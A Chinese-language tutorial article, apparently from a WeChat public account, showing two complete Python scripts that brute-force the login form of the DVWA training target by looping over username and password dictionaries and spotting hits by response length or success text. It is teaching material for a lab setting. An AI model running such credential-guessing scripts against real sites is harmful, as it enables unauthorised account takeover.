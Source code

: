 # 只用20行Python代码就攻破了网站登录

<a id="profileBt"></a><a id="js_name"></a>python数据分析之禅 *2022-03-23 12:33*

![](../../../_resources/0_wx_fmt_png_5590e9f0755e409cbe7f133343ae7267.png)

**python数据分析之禅**

点击领取pandas高清速查表，后台回复“速查表”获取

<a id="js_profile_article"></a>83篇原创内容

Official Account

大家好，我是鸟哥~

今天教大家用Python代码攻破网站登录（在测试靶机上进行实验），原理上是抓包和改包，如果学过的爬虫的话，相信你会快看懂这篇文章

测试靶机为DVWA，适合DVWA暴力破解模块的Low和Medium等级。

## **关键代码解释**

**url指定url地址**

```
url = "http://192.168.171.2/dvwa/vulnerabilities/brute/"
```

**header设置请求头**

```
`header = {` `'User-Agent':'Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0',` `'Cookie':'security=medium; PHPSESSID=geo7gb3ehf5gfnbhrvuqu545i7'``}`
```

**payload设置请求参数**

```
payload = {'username':username,'password':password,"Login":'Login'}
```

这一行的作用是作一次get请求，响应信息被变量Response接收。

```
 Response = requests.get(url,params=payload,headers=header)
```

**这两行代码循环遍历账号和密码字典文件，之后给他们做笛卡尔积循环暴力破解**

这种方式和burp的Intruder模块的Cluster bomb攻击方式一样。

```
`for admin in open("C:\\Users\\admin\\Documents\\字典\\账号.txt"):` `for line in open("C:\\Users\\admin\\Documents\\字典\\密码.txt"):`
```

**然后把循环结果存放到csv文件里，用逗号分割数据**

Response.status_code是响应的http状态码，len(Response.content)是http响应报文的长度。

```
`result = str(Response.status_code) + ',' + username + ','\` `+ password + ',' + str(len(Response.content))``f.write(result + '\n')`
```

## **完整代码**

### 方法一

登陆成功的和失败返回数据不同，所以数据包长度也不同。包长度与其他不同的数据，可能就是正确的账号密码。

```
`import requests``url = "http://192.168.171.2/dvwa/vulnerabilities/brute/"``#proxies= {"http":"http://127.0.0.1:8080"}  #代理设置，方便burp抓包查看``header = {` `'User-Agent':'Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0',` `'Cookie':'security=medium; PHPSESSID=bdi0ak5mqbud69nrnejgf8q00u'``}``f = open('result.csv','w')``f.write('状态码' + ',' + '用户名' + ',' + '密码' + ',' + '包长度' + '\n')``for admin in open("C:\\Users\\admin\\Documents\\字典\\账号.txt"):` `for line in open("C:\\Users\\admin\\Documents\\字典\\密码.txt"):` `username = admin.strip()` `password = line.strip()` `payload = {'username':username,'password':password,"Login":'Login'}` `Response = requests.get(url,params=payload,headers=header)` `result = str(Response.status_code) + ',' + username + ','\` `+ password + ',' + str(len(Response.content))` `f.write(result + '\n')``print('\n完成')`
```

#### 

#### 运行

![Image](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

这就是脚本发送的数据包

![Image](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

查看结果

![Image](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

查看包长度与其他不同的数据，登录测试

![Image](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

### 方法二

这个方法是根据登陆成功的返回特征来判断是否为正确的账号密码，然后把正确的账号密码输出到屏幕和txt文件里。

主要改动在第17到20行

```
`import requests``url = "http://192.168.171.2/dvwa/vulnerabilities/brute/"``#proxies= {"http":"http://127.0.0.1:8080"}  #代理设置，方便burp抓包查看``header = {` `'User-Agent':'Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0',` `'Cookie':'security=medium; PHPSESSID=bdi0ak5mqbud69nrnejgf8q00u'``}``f = open('result.txt','w')``for admin in open("C:\\Users\\admin\\Documents\\字典\\账号.txt"):` `for line in open("C:\\Users\\admin\\Documents\\字典\\密码.txt"):` `username = admin.strip()` `password = line.strip()` `payload = {'username':username,'password':password,"Login":'Login'}` `Response = requests.get(url,params=payload,headers=header)` `if not(Response.text.find('Welcome to the password protected area')==-1):` `result = username + ':' + password` `print(result)` `f.write(result + '\n')`  `print('\n完成')`
```

#### 

#### 运行

![Image](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![Image](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

People who liked this content also liked

分享 63 个面向前端开发人员的开源项目工具

前端达人

不看的原因

- 内容质量低
- 不看此公众号

Linux arp命令详解及C/C++代码实现

程序猿编码

不看的原因

- 内容质量低
- 不看此公众号

70行Go代码可以打败C！

硬件攻城狮

不看的原因

- 内容质量低
- 不看此公众号

<img width="102" height="102" src="../../../_resources/qrcode_scene_10000004_size_102___b87accb394e5489db.bmp"/>

Scan to Follow